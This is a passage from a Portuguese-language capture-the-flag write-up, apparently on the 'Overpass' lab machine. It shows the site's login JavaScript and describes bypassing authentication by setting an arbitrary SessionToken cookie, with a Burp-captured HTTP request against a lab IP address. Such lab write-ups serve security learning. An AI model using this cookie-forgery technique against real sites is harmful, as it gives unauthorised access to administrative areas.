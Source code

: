 **script de login**

![alt text](/assets/img/overpass/5.png)

```java
   const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
{: .nolineno }

O código permite login com Cookie, setando um cookie pra ver que acontece.

No navegador adicionei SessionToken como está no código, e path apenas /

![alt text](/assets/img/overpass/6.png)

Via burp pode adicionar na request.

Cookie: SessionToken=qualquervalor

Ficando dessa forma 

```text
POST /api/login HTTP/1.1
Host: 10.10.253.145
Content-Length: 30
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.10.253.145
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SessionToken=test teste
Connection: close

```